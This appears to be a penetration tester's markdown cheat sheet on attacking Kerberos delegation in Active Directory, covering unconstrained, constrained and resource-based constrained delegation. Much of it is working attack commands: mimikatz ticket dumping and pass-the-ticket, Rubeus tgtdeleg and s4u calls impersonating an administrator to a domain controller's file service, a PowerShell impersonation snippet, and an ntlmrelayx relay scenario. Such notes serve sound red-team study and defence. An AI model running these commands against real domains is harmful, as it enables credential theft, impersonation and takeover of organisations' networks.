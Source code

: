 # Delegation stuff

## Unconstrained Delegation
- Can Impersonate any user to any service (if it has user's TGT)
- User/Computer gets this privilege, so it can store other users TGTs in it's cache
- Then it can impersonate this users, classic example of WebServer accessing SQLServer.
- TRUSTED_FOR_DELEGATION attribute
- Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
- If we pwn this machine, and if some Administrator has used it's services, the ticket will be in the cache
- sekurlsa::tickets
- sekurlsa::tickets
- kerberos::ptt <ticket_filename>
- We can also switch rubeus in monitor mode, so when a user logs in, the ticket will be dumped.

## Constrained Delegation
- User/Computer gets this privilege, so it can impersonate any user for certain service.
- TRUSTED_TO_AUTH_FOR_DELEGATION flag (userAccountControl attribute)
- msds-allowedtodelegateto identify the SPN of services authorized to delegate.
For user:
- Get-NetUser -TrustedToAuth
- Rubeus.exe tgtdeleg (to ask delegation TGT) (in context of TrustedToAuth user/comp)
- Rubeus.exe s4u /ticket:<base64ticket> /impersonateuser:administrator /domain:domain.local /msdsspn:cifs/dc.domain.local /dc:dc01.domain.local /ptt
For computer:
- Get-NetComputer ws02 | select name, msds-allowedtodelegateto, useraccountcontrol | fl
- Get-NetComputer ws02 | Select-Object -ExpandProperty msds-allowedtodelegateto | fl
- Impersonation:
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()

## RBCD
- Only win >Win2012
- Scenario1: We owned a user/computer with  msDS-AllowedToActOnBehalfOfOtherIdentity attribute with some computer in. -> This account can be used to impersonate ANY user in ANY service of the computer in that attribute. (Any user excludes protected/sensitive accounts)
- Scenario 2:We owned an account that has GenericWrite over another computer. We can add msDS-AllowedToActOnBehalfOfOtherIdentity attribute to that computer, and move to Scenario1.
- Scenario 3: Without creds. User ntlmrelayx to relay some computer's NTLMv2 to LDAPserver in order to add a new computer into the AD. This computer can be created with AllowedToActOnBehalfOfOtherIdentity, to the computer which is being relayed. Then with creds to the new computer, we can move to Scenario1 and own the relayed computer. Wow!

## Other stuff
Convert from kirbi to ccache (Win/Linux)
- kekeo # misc::convert ccache ticket.kirbi
- export KRB5CCNAME=/path/to/ticket.ccache



